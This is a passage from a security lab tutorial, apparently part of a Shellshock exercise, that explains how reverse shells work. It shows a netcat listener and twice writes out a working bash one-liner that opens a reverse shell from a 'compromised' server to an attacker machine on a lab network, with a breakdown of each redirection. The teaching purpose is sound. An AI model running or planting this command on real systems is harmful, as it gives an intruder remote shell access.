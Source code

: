 ## 9) Informational Guidelines on Reverse Shell
---
The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is netcat, which, if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus only on the first line).

```bash
Attacker(10.0.2.6):$ nc -nv -l 9090 # Waiting for reverse shell
Listening on 0.0.0.0 9090Connection received on 10.0.2.5 39452
Server(10.0.2.5):$  # Reverse shell from 10.0.2.5.
Server(10.0.2.5):$ ifconfig
ifconfig enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500 inet 10.0.2.5 netmask 255.255.255.0 broadcast 10.0.2.255 ...
```

The above nc command will block, waiting for a connection. We now directly run the following bash program on the Server machine (10.0.2.5) to emulate what attackers would run after compromising the server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating that the shell is running on the Server machine; we can type the ifconfig command to verify that the IP address is indeed 10.0.2.5, the one belonging to the Server machine. Here is the bash command:
```
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
```
The above command represents the one that would normally be executed on a compromised server. It is quite complicated, and we give a detailed explanation in the following:

- "/bin/bash -i": The option i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt).
- "> /dev/tcp/10.0.2.6/9090": This causes the output device (stdout) of the shell to be redirected to the TCP connection to 10.0.2.6's port 9090. In Unix systems, stdout's file descriptor is 1.
- "0<&1": File descriptor 0 represents the standard input device (stdin). This option tells the system to use the standard output device as the stardard input device. Since stdout is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection.
- "2>&1": File descriptor 2 represents the standard error stderr. This causes the error output to be redirected to stdout, which is the TCP connection.

In summary, the following command starts a bash shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection.
```bash
/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
```
In our experiment, when the bash shell command is executed on 10.0.2.5, it connects back to the netcat process started on 10.0.2.6. This is confirmed via the "Connection from 10.0.2.5 ..." message displayed by netcat.

